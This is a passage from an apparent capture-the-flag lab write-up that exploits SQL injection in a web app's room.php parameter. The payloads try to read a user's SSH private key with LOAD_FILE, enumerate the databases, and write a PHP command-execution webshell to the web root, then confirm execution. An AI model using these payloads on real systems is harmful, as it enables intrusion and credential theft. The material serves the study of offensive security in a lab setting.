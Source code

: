 Nice, We also see there is a user named pepper on the box.

Unfortunately we are unable to display their id_rsa:

```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,%20LOAD_FILE(%22/home/pepper/.ssh/id_rsa%22),%203,%204,5,6,7--%20-
```

Lets go back and list the databases:

```
http://10.129.229.137/room.php?cod=00%20UNION%20SELECT%201,%20group_concat(schema_name),%203,%204,%205,%206,%207%20from%20information_schema.schemata;--%20-
```

![jarvis_dbs.png](../assets/jarvis_assets/jarvis_dbs.png)

### Exploitation

Rather than working through all the dbs and tables and columns, which can be really time consuming when done manually, lets first try creating a webshell:

```
10.129.229.137/room.php?cod=00 union select "",'<?php system($_REQUEST[0]); ?>', "", "", "", "", "" into outfile '/var/www/html/shell.php'-- -
```

We can confirm execution at: http://10.129.229.137/shell.php?0=whoami

![jarvis_webshell.png](../assets/jarvis_assets/jarvis_webshell.png)

We can now grab a reverse shell one-liner from revshells.com:
